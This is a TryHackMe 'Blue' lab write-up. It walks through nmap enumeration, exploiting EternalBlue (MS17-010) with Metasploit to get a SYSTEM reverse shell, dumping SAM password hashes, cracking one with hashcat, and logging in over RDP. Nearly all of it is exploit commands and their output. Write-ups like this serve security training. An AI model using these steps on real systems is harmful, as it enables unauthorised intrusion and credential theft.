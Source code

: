 # Try Hack Me - Blue

**Categories:** Windows, EternalBlue, MS17-010, CVE2017-0144  
**Difficulty:** Easy  

Commands used in this guide use the exported variable $IP (`export IP=10.10.212.70`) in place of the target machine's IP address.

## 1: Enumeration - nmap, smbclient

An initial nmap scan reveals 9 open ports but only 4 of these - 135 (RPC), 139 (NetBIOS), 445 (SMB), 3389 (RDP) - are likely to be interesting, with ports in the 49XXX probably being artifacts of the box's VPC config.

```sh
kali@kali:~$ sudo nmap $IP
...snip...
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown
```

This port configuration and associated services probably indicates a Windows machine and we confirm this with a more detailed OS, ("-O"), service ("-sV") and vulnerability ("--script vuln") scan on the 4 discovered services :

```sh
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  tcpwrapped
|_sslv2-drown: 
...snip....
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%)
...snip....
Host script results:
...snip...
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
...snip...
```

So we are able to confirm that this is likely a Windows 7 machine and the service information we get back is not great (no version information), but obviously there is a pretty big red flag here : the machine is apparently running an unpatched version of SMBv1 vulnerable to CVE-2017-0143 / ms17-010, better known as [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue).

There is more to investigate here - we could check if the SMB shares allow for anonymous access or are brute forceable, we could try to find more information on the RDP version, etc. - but for now we'll continue with EternalBlue.

## 2: Foothold - metasploit

Given the relative complexity of the EternalBlue vulnerability, we'll be using the [ms17_010_eternalblue](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) module provided by metasploit to perform the exploit. After having loaded the module in msfconsole and configured the RHOSTS and LHOST paramters, we run the exploit : 

```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
                                               
[*] Started reverse TCP handler on 10.6.76.88:4444                                            
[*] 10.10.212.70:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check                      
[+] 10.10.212.70:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.212.70:445      - Scanned 1 of 1 hosts (100% complete)                              
[+] 10.10.212.70:445 - The target is vulnerable.                   
[*] 10.10.212.70:445 - Connecting to target for exploitation. 
...snip...
[+] 10.10.212.70:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=          
[+] 10.10.212.70:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=          
[+] 10.10.212.70:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

Dropping down into a shell and running some basic post-exploitation enum shows that we already have AUTHORITY\SYSTEM level privileges :


```sh
meterpreter > shell
Process 1896 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>hostname && whoami
Jon-PC
nt authority\system
```

## 3. Persistence  - hashdump, hashcat

From here, we can perform any number of post-exploitation activities (the room pays particular attention to process migration to ensure that our user and process privileges are both AUTHORITY\SYSTEM level) - listing, modifying and creating user accounts, exfiltrating data, setting up persistent access and C2, etc. We'll focus on persistent access through extracting and cracking password hashes. Windows machines store local user password hashes in the [Security Account Manager (SAM) registry hive](https://en.wikipedia.org/wiki/Security_Account_Manager), which is readable by AUTHORITY\SYSTEM level users. We can use Metasploit's [hashdump](https://www.rapid7.com/blog/post/2010/01/01/safe-reliable-hash-dumping/) module to extract these hashes by dropping out of the shell session and running "hashdump" in the meterpreter console :

```sh
C:\Windows\system32>^C
Terminate channel 1? [y/N]  y 
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

The result has one line for each user, structured as follows :

```sh
USERNAME:USER_RID:LM_HASH:NTLM_HASH 
```

The eagle-eyed among you will notice that the LM hash is the same for the 3 user accounts - this is because LM password hashes were deprecated in Windows Vista and are not set for users on later distributions. You might also notice that the Guest and Administrator NTLM hashes are the same and this is again the default hash used for a user that does not have an NTLM password set. What interests us here then is the NTLM hash for the user Jon. Saving the hashdump output to a file "hash.txt", we can run hashcat in NTLM mode (-m 1000) to attempt to crack Jon's password hash :

```sh
┌──(kali㉿kali)-[~]
└─$ hashcat -m 1000 -a 0 hash.txt rockyou
hashcat (v6.1.1) starting...

...snip...

Dictionary cache hit:
* Filename..: rockyou
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

31d6cfe0d16ae931b73c59d7e0c089c0:
ffb43f0de35be4d9917ac0cc8ad57f8d:PASSWORD
                                                 
Session..........: hashcat
Status...........: Cracked

...snip...

```

Hashcat successfully finds Jon's password after just a few minutes. We can use the RDP service discovered in section 1 to test that the discovered password is correct and provides persistent access to the machine :

```sh
┌──(kali㉿kali)-[~]
└─$ xfreerdp /v:$IP /u:Jon /p:PASSWORD
```

There's no easy way to show this in text only format, but the RDP access is successful - we now have persistent, password-based access to a user in the local "Administrators" groups.
